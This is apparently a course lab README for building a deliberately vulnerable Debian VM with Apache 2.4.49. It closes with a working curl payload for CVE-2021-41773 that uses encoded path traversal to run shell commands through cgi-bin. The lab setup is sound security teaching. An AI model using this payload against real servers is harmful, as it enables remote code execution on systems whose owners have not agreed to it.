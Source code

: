 # Files in this repo

## setup.sh

This file is intended to be executed as root on the guest VM. Do not run it on your host OS; it will do bad things.

This script will:
* Install sudo, build-essential, and the build dependencies for apache2
* Add user `abronsius` to the sudoers list
* Download, build, and install apache2 2.4.49 at `/home/abronsius/apache2`
* Configure apache2 to serve files and enable cgi-bin
* ... more coming later

# VM OS

The OS is Debian 11.1 Bullseye but any Debian-based OS should also work. I don't recommend deviating from this choice in case there are compatibility issues, and any non-Debian OS will require installing and configuring everything manually. Download via [Torrent](https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-11.1.0-amd64-netinst.iso.torrent) or directly via [ISO](https://cdimage.debian.org/debian-cd/current/amd64/iso-cd/debian-11.1.0-amd64-netinst.iso). The sha256sum of the ISO is `8488abc1361590ee7a3c9b00ec059b29dfb1da40f8ba4adf293c7a30fa943eb2` to double check that you've obtained the correct file.

# VM Configuration

The VM can be installed using any software (qemu/kvm, VirtualBox, VMWare, etc.)
The only requirement is network access with its own IP address. This can (and should) be a totally local network. The VM will contain several serious security flaws and therefore should not be available over the Internet.

The scripts are hardcoded to assume there is a user named `abronsius`, so be sure to create such a user either when installing the OS or afterward.

# Exploits

## Exploit Target 1: Apache

### Exploit 1: CVE-2021-41773

This vulnerability is trivial to exploit and results in directory traversal, local file inclusion, and remote code execution. This exploit takes advantage of a new form of URL normalisation added in this version which did not appropriately check against URL-encoded paths, which in this instance allows moving up from the cgi-bin directory and executing arbitrary code on the remote server. This line brings the directory up to `/` and then executes `/bin/sh` and passes `echo;ls;whoami;uname -a` to the opened shell.

Directory traveral/local file inclusion:
```sh
curl --path-as-is "http://website1.cpsc4270.foul.dev/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo;ls;whoami;uname -a"
```
